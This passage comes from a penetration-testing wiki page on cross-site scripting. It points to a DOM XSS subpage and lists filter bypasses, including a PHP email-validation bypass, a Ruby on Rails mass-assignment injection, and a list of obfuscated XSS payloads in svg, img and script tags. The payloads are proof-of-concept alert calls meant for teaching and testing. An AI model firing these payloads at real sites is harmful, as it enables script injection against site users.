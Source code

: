 ````javascript
````

## **DOM vulnerabilities**

There is **JS code** that is using **unsafely data controlled by an attacker** like `location.href` . An attacker, could abuse this to execute arbitrary JS code.\
**Due to the extension of the explanation of** [**DOM vulnerabilities it was moved to this page**](dom-xss.md)**:**

{% content-ref url="dom-xss.md" %}
[dom-xss.md](dom-xss.md)
{% endcontent-ref %}

There you will find a detailed **explanation of what DOM vulnerabilities are, how are they provoked, and how to exploit them**.\
Also, don't forget that **at the end of the mentioned post** you can find an explanation about [**DOM Clobbering attacks**](dom-xss.md#dom-clobbering).

## Other Bypasses

### Normalised Unicode

You could check is the **reflected values** are being **unicode normalized** in the server (or in the client side) and abuse this functionality to bypass protections. [**Find an example here**](../unicode-injection/#xss-cross-site-scripting).

### PHP FILTER\_VALIDATE\_EMAIL flag Bypass

```javascript
"><svg/onload=confirm(1)>"@x.y
```

### Ruby-On-Rails bypass

Due to **RoR mass assignment** quotes are inserted in the HTML and then the quote restriction is bypassed and additoinal fields (onfocus) can be added inside the tag.\
Form example ([from this report](https://hackerone.com/reports/709336)), if you send the payload:

```
contact[email] onfocus=javascript:alert('xss') autofocus a=a&form_type[a]aaa
```

The pair "Key","Value" will be echoed back like this:

```
{" onfocus=javascript:alert(&#39;xss&#39;) autofocus a"=>"a"}
```

Then, the onfocus attribute will be inserted and XSS occurs.

### Special combinations

```markup
<iframe/src="data:text/html,<svg onload=alert(1)>">
<input type=image src onerror="prompt(1)">
<svg onload=alert(1)//
<img src="/" =_=" title="onerror='prompt(1)'">
<img src='1' onerror='alert(0)' <
<script x> alert(1) </script 1=2
<script x>alert('XSS')<script y>
<svg/onload=location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;//
<svg////////onload=alert(1)>
<svg id=x;onload=alert(1)>
<svg id=`x`onload=alert(1)>
<img src=1 alt=al lang=ert onerror=top[alt+lang](0)>
<script>$=1,alert($)</script>
<script ~~~>confirm(1)</script ~~~>
```